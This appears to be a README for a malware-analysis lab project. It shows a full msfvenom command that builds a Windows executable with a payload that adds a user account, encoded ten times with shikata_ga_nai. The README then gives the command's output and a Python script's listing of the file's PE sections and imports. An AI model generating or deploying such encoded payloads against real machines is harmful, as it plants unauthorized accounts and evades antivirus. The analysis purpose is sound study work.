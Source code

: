 # Malware-Analysis

Create Malicious exe file using Metasploit module (msfvenom) that adds a user "testuser321" and password "Test@321". Encode the file using encoder shikata_ga_nai with iteration 10 times as shown below.

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  

[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
....
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 

# Getting Started & Examples
The script will show the sections and IAT of the file as shown below    

root@kali64:~# python pe_test.py testadd10.exe \
testadd10.exe
('.text\x00\x00\x00', '0x1000', '0xa966', 45056)
('.rdata\x00\x00', '0xc000', '0xfe6', 4096)
('.data\x00\x00\x00', '0xd000', '0x705c', 16384)
('.rsrc\x00\x00\x00', '0x15000', '0x7c8', 4096)
MSVCRT.dll
	_iob
	_except_handler3
	__set_app_type
	__p__fmode
	__p__commode
	_adjust_fdiv
	__setusermatherr
	_initterm
	__getmainargs
	__p___initenv
	_XcptFilter
	_exit
	_onexit
	__dllonexit
	strrchr
	wcsncmp
	_close
	wcslen
	wcscpy
	strerror
	modf
	strspn
	realloc
	__p__environ
	__p__wenviron
	_errno
	free
	strncmp
	strstr
	strncpy
	_ftol
	qsort
	fopen
	perror
	fclose
	fflush
	calloc
	malloc
	signal
	printf
	_isctype
	atoi
	exit
	__mb_cur_max
	_pctype
	strchr
	fprintf
	_controlfp
	_strdup
	_strnicmp
KERNEL32.dll
	PeekNamedPipe
	ReadFile
	WriteFile
	LoadLibraryA
	GetProcAddress
	GetVersionExA
	GetExitCodeProcess

